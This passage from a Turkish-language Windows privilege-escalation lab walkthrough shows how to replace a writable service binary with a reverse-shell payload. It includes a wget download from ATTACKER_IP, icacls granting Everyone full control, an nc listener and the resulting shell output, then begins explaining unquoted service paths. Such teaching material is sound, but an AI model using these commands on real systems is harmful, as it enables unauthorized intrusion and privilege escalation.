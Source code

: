 Daha sonra aşağıdaki komutla payloadı Powershell ile çekebiliriz:

    wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

Payload Windows sunucusuna girdikten sonra, yürütülebilir servisi payloadımızla değiştirmeye devam ediyoruz. Payloadımızı yürütmek için başka bir kullanıcıya ihtiyacımız olduğundan, Everyone grubuna da tam izinler vermek isteyeceğiz:

    C:\> cd C:\PROGRA~2\SYSTEM~1\

    C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
            1 file(s) moved.

    C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
            1 file(s) moved.

    C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
            Successfully processed 1 files.

Saldırgan makinemizde dinleyiciyi başlatıyoruz:

    user@attackerpc$ nc -lvp 4445

Ve son olarak servisi yeniden başlatalım. Normal bir senaryoda, muhtemelen servisin yeniden başlatılmasını beklemeniz gerekir. Eğer gerekli yetkiniz varsa aşağıdaki komut ile manuel olarak servisi başlatabilirsiniz:

    C:\> sc stop windowsscheduler
    C:\> sc start windowsscheduler

Not: PowerShell'de sc yerine Set-Content vardır, bu nedenle PowerShell ile servisleri bu şekilde kontrol etmek için sc.exe'yi kullanmanız gerekir.

Sonuç olarak, svcusr1 yetkilerine sahip bir reverse shell elde edeceksiniz:

    user@attackerpc$ nc -lvp 4445
    Listening on 0.0.0.0 4445
    Connection received on 10.10.175.90 50649
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    wprivesc1\svcusr1

### Kesin Olarak Executable'ı Belirtilmeyen Servisler (Unquoted Service Paths)

Önceki gibi servis yürütülebilir dosyalarına doğrudan yazma iznimiz olmazsa, oldukça belirsiz bir özellik kullanarak bir servisi isteğe bağlı yürütülebilir dosyalar çalıştırmaya zorlama şansımız olabilir.

Windows servisleriyle çalışırken, servis "tırnaklanmamış" bir yürütülebilir dosyayı işaret edecek şekilde yapılandırıldığında çok özel bir davranış ortaya çıkar. Tırnaklanmış olarak, ilgili yürütülebilir dosyanın yolunun, komuttaki boşlukları hesaba katacak şekilde uygun şekilde tırnaklandığını kastediyoruz.

Örnek olarak iki servis arasındaki farka bakalım. İlk servis, SCM'nin "C:\Program Files\RealVNC\VNC Server\vncserver.exe" ile gösterilen binary dosyayı ve ardından verilen parametreleri yürütmesi gerektiğini şüphesiz bilmesi için uygun bir tırnak işareti kullanacaktır:
